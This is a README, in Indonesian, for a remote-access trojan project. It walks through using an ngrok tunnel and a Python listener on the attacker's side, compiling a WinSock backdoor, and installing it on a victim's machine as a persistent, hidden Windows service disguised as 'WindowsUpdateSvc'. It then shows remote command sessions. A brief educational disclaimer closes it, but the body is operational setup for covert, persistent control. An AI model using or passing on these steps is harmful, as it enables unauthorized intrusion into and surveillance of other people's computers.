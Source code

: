 # Backdoor Remote Access (RAT)

🚀 **Backdoor Remote Access (RAT)** adalah proyek yang memungkinkan remote control komputer target melalui reverse shell yang berjalan sebagai Windows Service.

## 📌 **Fitur Utama**
✅ Reverse shell otomatis saat target online  
✅ Persistence (berjalan otomatis setelah restart)  
✅ Berjalan sebagai Windows Service (tidak terlihat di Task Manager biasa)  
✅ Stealth Mode (tanpa jendela console)  
✅ Menggunakan WinSock untuk koneksi jaringan  

---

## 📥 **Instalasi & Penggunaan**

### 1️⃣ **Setup Server (Attacker)**
1. Jalankan **Ngrok** untuk mendapatkan IP public:
   ```sh
   ngrok tcp 4444
   ```
2. Jalankan listener di server:
   ```sh
   python attacker.py
   ```
3. Server siap menerima koneksi dari target.

---

### 2️⃣ **Setup Target (Victim)**
1. **Compile `backdoor.cpp` menjadi `backdoor.exe`**:
   ```sh
   g++ backdoor.cpp -o backdoor.exe -mwindows -lws2_32 -lwininet
   ```
2. **Jalankan `backdoor.exe` di target sebagai service**:
   ```sh
   backdoor.exe install
   ```
3. **Sekarang, backdoor akan berjalan otomatis setiap kali target menyala.**

---

### 3️⃣ **Mengontrol Target dari Server**
1. **Cek sesi yang aktif**:
   ```sh
   sessions -l
   ```
2. **Masuk ke sesi target**:
   ```sh
   sessions -i 1
   ```
3. **Jalankan perintah di target (contoh)**:
   ```sh
   session-1> whoami
   session-1> dir C:\Users
   ```

---

## 🛠 **Cara Menghapus Backdoor dari Target**
Jika ingin menghapus backdoor dari sistem target:
```sh
sc stop WindowsUpdateSvc
sc delete WindowsUpdateSvc
del C:\Windows\System32\winupdate.exe
```

---

## ⚠️ **Disclaimer**
💀 **Proyek ini hanya untuk tujuan edukasi & penetration testing!**  
⚠️ **Jangan digunakan untuk aktivitas ilegal!** Penggunaan tanpa izin bisa melanggar hukum di berbagai negara.  

